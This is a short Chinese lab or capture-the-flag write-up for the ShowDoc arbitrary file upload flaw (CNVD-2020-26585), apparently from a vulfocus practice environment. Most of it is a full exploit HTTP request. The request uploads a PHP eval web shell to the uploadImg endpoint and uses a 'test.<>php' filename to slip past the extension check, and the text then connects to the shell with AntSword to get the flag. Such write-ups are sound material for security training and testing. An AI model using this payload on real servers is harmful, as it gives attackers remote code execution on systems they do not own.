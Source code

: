 ## showdoc 文件上传（cnvd-2020-26585）

ShowDoc一个非常适合IT团队的在线[API](https://so.csdn.net/so/search?q=API&spm=1001.2101.3001.7020)文档、技术文档工具。 api_page存在任意文件上传



有一个页面存在任意文件上传



payload：

POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host: vulfocus.fofa.so:57700 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=--------------------------921378126371623762173617
Content-Length: 265

----------------------------921378126371623762173617
Content-Disposition: form-data; name="editormd-image-file"; filename="test.<>php"
Content-Type: text/plain

<?php echo '123';@eval($_POST[cmd])?>
----------------------------921378126371623762173617--



burp抓包 发送

回显上传文件地址

![image-20220420152707648](./src/15.png)

蚁剑连接：

![image-20220420152804556](./src/16.png)

拿到flag